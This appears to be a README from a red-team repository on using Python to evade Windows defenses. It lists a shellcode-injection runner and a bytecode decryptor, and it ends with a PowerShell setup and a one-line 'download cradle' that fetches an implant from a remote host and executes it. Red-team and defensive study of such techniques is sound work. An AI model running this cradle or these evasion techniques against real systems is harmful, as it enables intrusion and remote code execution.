 <p align="center">
  <img src="../_resources/img/0004.png" width="100">
</p>

# Python
The `python.exe` binary has a high reputational score and is (likely) used to execute many legitimate applications within an organization. Therefore, with a little work, Python can still be a great language to use in red teaming engagements and help evade modern defenses. 

### Table of Contents
  * [Examples](#examples)
  * [Usage](#Usage)


## Examples
| File                                           | Description                                                                            |
|------------------------------------------------|----------------------------------------------------------------------------------------|
| [shellcode_runner.py](src/shellcode_runner.py) | Injects shellcode into the current process with ```VirtualAlloc```/```CreateThread```. |
| [decrypt_bytecode.py](src/decrypt_bytecode.py) | Decrypt AES encrypted bytecode files by pyinstaller.                                                                                       |


## Usage
Python execution without installation on Windows systems:
```ps1
# Download Python:
Invoke-WebRequest -URI https://www.python.org/ftp/python/3.11.0/python-3.11.0-embed-amd64.zip -OutFile python311.zip

# Unzip Archive:
Expand-Archive python311.zip -DestinationPath python311

# Test
.\python311\python.exe -V

# Download Cradle using only standard libraries:
python -c 'import urllib.request;exec(urllib.request.urlopen("http://192.168.1.100/implant.txt").read())'
```
